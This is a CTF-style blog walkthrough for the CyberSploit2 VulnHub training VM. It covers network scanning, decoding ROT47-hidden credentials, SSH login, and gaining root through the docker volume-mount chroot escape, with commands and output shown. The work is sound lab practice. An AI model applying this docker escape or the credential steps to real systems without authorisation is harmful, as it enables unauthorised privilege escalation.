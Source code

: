 ```yaml
---
title: "CyberSploit 2 VulnHub Walkthrough"
description: "Boot to Root Your target is gain the Root access There is no any flag in this VMs"
date: 2024-07-29
categories: [CTF, VulnHub]
tags: [privilege escalation]
image:
  path: https://i.ytimg.com/vi/lQKO0zqyDpI/maxresdefault.jpg
---
```



This walkthrough guides you through the process of gaining root access on the CyberSploit2 boot2root virtual machine (VM) from Vulnhub. CyberSploit2 is the second part of the CyberSploit Series.

## Download the VM

- **Download the CyberSploit2 VM (size: 1.2 GB)** 
  - [Download Now](https://download.vulnhub.com/cybersploit/CyberSploit2.ova)

## Walkthrough

### 1. Discover Target Machine IP Address

Once the VM is running, determine its IP address using the 'arp-scan' utility:

```bash
┌──(root㉿neo)-[~]
└─# arp-scan -l
Interface: wlan0, type: EN10MB, MAC: 50:c2:e8:43:93:3b, IPv4: 192.168.1.8
Starting arp-scan 1.10.0 with 256 hosts (https://github.com/royhills/arp-scan)
192.168.1.4	08:00:27:ee:18:51	PCS Systemtechnik GmbH

4 packets received by filter, 0 packets dropped by kernel
Ending arp-scan 1.10.0: 256 hosts scanned in 2.003 seconds (127.81 hosts/sec). 1 responded
```

### 2. Scan for Open Ports

Use Nmap to scan for open ports on the target machine (replace `<target_IP>` with the VM's IP address obtained in the previous step):

```bash
┌──(root㉿neo)-[~]
└─# nmap -A 192.168.1.4
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-04-15 08:47 IST
Nmap scan report for 192.168.1.4
Host is up (0.00053s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.0 (protocol 2.0)
| ssh-hostkey: 
|   3072 ad:6d:15:e7:44:e9:7b:b8:59:09:19:5c:bd:d6:6b:10 (RSA)
|   256 d6:d5:b4:5d:8d:f9:5e:6f:3a:31:ad:81:80:34:9b:12 (ECDSA)
|_  256 69:79:4f:8c:90:e9:43:6c:17:f7:31:e8:ff:87:05:31 (ED25519)
80/tcp open  http    Apache httpd 2.4.37 ((centos))
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-title: CyberSploit2
|_http-server-header: Apache/2.4.37 (centos)
MAC Address: 08:00:27:EE:18:51 (Oracle VirtualBox virtual NIC)
Device type: general purpose
Running: Linux 3.X|4.X
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
OS details: Linux 3.2 - 4.14
Network Distance: 1 hop

TRACEROUTE
HOP RTT     ADDRESS
1   0.53 ms 192.168.1.4

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.92 seconds
```

### 3. Enumerate HTTP Service

Explore the identified HTTP service (e.g., browse to `http://<target_IP>` in a web browser).

![Webpage Screenshot](https://github.com/f141ne0/f141ne0.github.io/assets/165682600/655ba6b0-cc80-4aa0-b954-af52a31cda0f)

Here on Line 4 of the webpage, hashes `D92:=6?5C2` & `4J36CDA=@:E` are found.

![Source Code Screenshot](https://github.com/f141ne0/f141ne0.github.io/assets/165682600/69ec26be-98dd-4b62-9472-25bd5ddea149)

The webpage source code at line 126 contains `<!-- ROT47 -->` hint for line 4 hash in ROT47 format.

#### Let's Crack The Hash Using ROT47

```bash
┌──(root㉿neo)-[~]
└─# echo "D92:=6?5C2" | tr '!-~' 'P-~!-O'

shailendra
```

Cracking the Second Hash:

```bash
┌──(root㉿neo)-[~]
└─# cat hash.txt | tr '!-~' 'P-~!-O'       

cybersploit1
```

The hashes are cracked:
- Username: `shailendra`
- Password: `cybersploit1`

#### 4. Login to SSH

Attempt to login to SSH using the discovered credentials:

```bash
┌──(root㉿neo)-[~]
└─# ssh shailendra@192.168.1.4
shailendra@192.168.1.4's password: 
Last login: Mon Apr 15 08:34:27 2024 from 192.168.1.8
[shailendra@localhost ~]$ 
```

#### 5. Obtain User Flag

Explore the user account for further clues and locate the user flag.

```bash
[shailendra@localhost ~]$ ls
hint.txt
[shailendra@localhost ~]$ cat hint.txt
docker
[shailendra@localhost ~]$ 
```

#### 6. Escalate Privileges via Docker

Search for Docker-related vulnerabilities using [GTFOBins](https://gtfobins.github.io/gtfobins/docker/).

![GTFOBins Screenshots](https://github.com/f141ne0/f141ne0.github.io/assets/165682600/5cd3822f-3ae5-4ff1-bb5b-c614b26729e8)

Execute Docker commands to escalate privileges to root:

```bash
[shailendra@localhost ~]$ docker run -v /:/mnt --rm -it alpine chroot /mnt sh
Unable to find image 'alpine:latest' locally
latest: Pulling from library/alpine
4abcf2066143

: Pull complete 
Digest: sha256:c5b1261d6d3e43071626931fc004f70149baeba2c8ec672bd4f27761f8e1ad6b
Status: Downloaded newer image for alpine:latest
sh-4.4# 
```

#### 7. Find the Root Flag

Navigate to the `/root` directory and locate the root flag:

```bash
sh-4.4# ls /root
anaconda-ks.cfg  flag.txt  get-docker.sh  logs
sh-4.4# cat /root/flag.txt
__    ___   _      __    ___    __   _____  __  
/ /`  / / \ | |\ | / /`_ | |_)  / /\   | |  ( (` 
\_\_, \_\_/ |_| \| \_\_/

 |_| \ /_/--\  |_|  _)_) 

 Pwned CyberSploit2 POC

share it with me twitter@cybersploit1

              Thanks ! 
sh-4.4# 
```

## Conclusion

Congratulations! You have successfully rooted the CyberSploit2 VM from VulnHub.
